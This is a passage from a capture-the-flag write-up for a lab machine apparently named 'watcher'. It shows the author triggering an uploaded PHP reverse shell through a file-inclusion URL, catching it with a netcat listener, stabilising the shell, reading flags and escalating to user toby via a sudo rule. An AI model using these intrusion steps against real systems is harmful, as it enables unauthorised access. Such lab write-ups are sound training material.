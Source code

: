 According to the message found earlier, that file should now be at `/home/ftpuser/ftp/filesphp-reverse-shell.php`. 

I started a Netcat listener in my Kali VM (`nc -lvnp 4444`). Then loaded http://target/post.php?post=/home/ftpuser/ftp/files/php-reverse-shell.php in a browser. I got a connection on my listener. 

I stabilized my shell with the following commands:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

# Hit Ctrl-z to go background the shell
stty raw -echo;fg
```

From there, I found a third flag in the web site files. 

```bash
www-data@watcher:/$ whoami
www-data
www-data@watcher:/$ ls /var/www/html/
bunch.php   images               post.php    secret_file_do_not_read.txt
css         index.php            robots.txt  striped.php
flag_1.txt  more_secrets_a9f10a  round.php
www-data@watcher:/$ ls /var/www/html/more_secrets_a9f10a/           
flag_3.txt
www-data@watcher:/$ cat /var/www/html/more_secrets_a9f10a/flag_3.txt 
FLAG{SOME FLAG}
```

## Escalate to Toby
Now that we have a shell, we need to try to escalate our privileges. 

First thing to do is check is the current user can run sudo. www-data should not, but it's a good idea to check anyway. 

```bash
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

www-data is allowed to run any command as toby. 

```bash
sudo -utoby bash -p
toby@watcher:/$ whoami
toby
toby@watcher:/$ ls -l /home/toby/
total 12
-rw------- 1 toby toby   21 Dec  3 01:58 flag_4.txt
drwxrwxr-x 2 toby toby 4096 Dec  3 03:31 jobs
-rw-r--r-- 1 mat  mat    89 Dec 12 15:25 note.txt
```
